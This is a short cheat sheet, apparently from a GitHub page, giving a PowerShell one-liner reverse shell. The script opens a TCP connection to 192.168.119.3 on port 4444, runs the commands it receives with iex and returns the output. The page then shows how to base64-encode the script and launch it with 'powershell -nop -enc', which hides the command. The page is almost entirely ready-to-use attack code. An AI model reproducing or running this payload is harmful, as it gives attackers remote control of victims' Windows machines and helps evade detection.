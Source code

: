 # PowerShell One Liner Reverse Shells

## Reverse TCP

```
PS C:\> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS C:\> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS C:\> $EncodedText = [Convert]::ToBase64String($Bytes)

PS C:\> $EncodedText
```

Then can plug into `powershell -nop -enc BASE64J3D769S7+HK67JH5FS=`


See also https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3